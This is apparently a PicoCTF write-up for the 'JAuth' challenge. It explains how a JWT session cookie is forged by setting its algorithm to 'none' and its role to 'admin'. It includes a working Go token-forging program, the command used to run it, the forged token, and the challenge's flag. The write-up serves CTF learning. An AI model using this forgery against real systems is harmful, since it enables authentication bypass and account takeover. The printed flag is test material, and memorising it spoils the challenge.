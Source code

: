 ```yaml
---
title: "JAuth"
tags:
- Authentication Bypass
- CTF
- JWT
- PicoCTF
- Web
date: 2022-02-22T14:49:34+05:30
draft: false
---
```


The challenge description states that most web application developers use third party components without testing their security.
It mentions some past affected companies, then asks us to identify and exploit the vulnerable component for the challenge at http://saturn.picoctf.net:52025/

The goal is to become an `admin`.
We are provied with the username `test` and the password `Test123!` to look around.

The challenge is a dummy bank portal. On login, we see the message:
> Hello, You have logged in the testing page. There is nothing to see here.

While logging in, if we check the network requests and responses,
we can see a cookie named `token` being set.

```none
Set-Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjQ1NTE4MjkzMTE5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6OTcuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC85Ny4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2NDU1MTgyOTN9.dy45xnUb62Xnhqgo51JmGWRthAUGS-3jKwQ_RlDYCrw; path=/; httponly
```

On taking a closer look, the cookie looks like a [JSON web token](https://en.wikipedia.org/wiki/JSON_Web_Token).
JSON web tokens comprise three base64 encoded parts, each separated by a `.`
These include:
- Header
- Payload
- Verification signature

> We can make this educated guess since the value begins with `eyJ` which partially decodes to `{"`

For this token, we can base64 decode the header and the payload like so:

### Header

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9`

decodes to

`{"typ":"JWT","alg":"HS256"}`

### Payload

`eyJhdXRoIjoxNjQ1NTE4MjkzMTE5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6OTcuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC85Ny4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2NDU1MTgyOTN9`

decodes to

`{"auth":1645518293119,"agent":"Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0","role":"user","iat":1645518293}`

Decoding the signature would result in non-printable characters since it is the base64 representation of the HS256
or [HMAC](https://en.wikipedia.org/wiki/HMAC) [SHA256](https://en.wikipedia.org/wiki/SHA-2) digest of the header,
payload and a 256 bit secret.
Other algorithms include RSA256 (RSA SHA256), ES256 (ECDSA SHA256) and the like.

For forging an admin's cookie, we would need to modify the `"role"` field in the payload to `"admin"`.
However, if we do so, the verification signature becomes invalid for the payload. The only way we can
generate a valid signature is by knowing the 256 bit secret.

If we pay close attention to the header, we see that the verification algorithm is specified in the cookie.
We can modify the `"alg"` field of the header to `"none"` and omit the verification signature completely.
The trailing dot following the encoded payload must be present.

So, I wrote a little Golang program to do just that.

```go
package main

import (
 "encoding/base64"
 "encoding/json"
 "fmt"
 "log"
 "os"
 "strings"
)

// modify decodes a base64 encoded part of the token,
// and sets the `whence` field to the value supplied as `what`
func modify(part, whence, what string) (string, error) {
 // b has the base64 decoded bytes
 b, err := base64.URLEncoding.DecodeString(part)
 if err != nil {
  return "", err
 }
 // unmarshal the json data to the structure `p`
 p := make(map[string]interface{})
 err = json.Unmarshal(b, &p)
 if err != nil {
  return "", err
 }
 // set the `whence` field to `what`
 p[whence] = what
 // marshal the modified structure back to json
 marshalled, err := json.Marshal(p)
 if err != nil {
  return "", err
 }
 // return the modified part, encoded with base64
 return strings.Replace(base64.URLEncoding.EncodeToString(marshalled), "=", "", -1), nil
}

func main() {
 // print usage if token is not supplied
 if len(os.Args) < 2 {
  fmt.Fprintf(os.Stderr, "Usage:\n\t%s <token>\n", os.Args[0])
  os.Exit(1)
 }
 // split the parts
 parts := strings.Split(os.Args[1], ".")
 // set the last part to empty since we would not need it
 parts[2] = ""

 part, err := modify(parts[0], "alg", "none")
 if err != nil {
  log.Fatalln(err)
 }
 parts[0] = part
 part, err = modify(parts[1], "role", "admin")
 if err != nil {
  log.Fatalln(err)
 }
 parts[1] = part
 // join the parts back
 fmt.Printf("Forged token: %v\n", strings.Join(parts, "."))
}
```

Now we run:

```bash
go run main.go eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjQ1NTE4MjkzMTE5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6OTcuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC85Ny4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2NDU1MTgyOTN9.dy45xnUb62Xnhqgo51JmGWRthAUGS-3jKwQ_RlDYCrw
```

which gives forged token: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6OTcuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC85Ny4wIiwiYXV0aCI6MTY0NTUxODI5MzExOSwiaWF0IjoxNjQ1NTE4MjkzLCJyb2xlIjoiYWRtaW4ifQ.`

Manually setting the cookie to this value, we are redirected to the admin page.

> Hello, admin! You have logged in as admin!

and we are greeted with the flag `picoCTF{succ3ss_@u7h3nt1c@710n_57072644}`
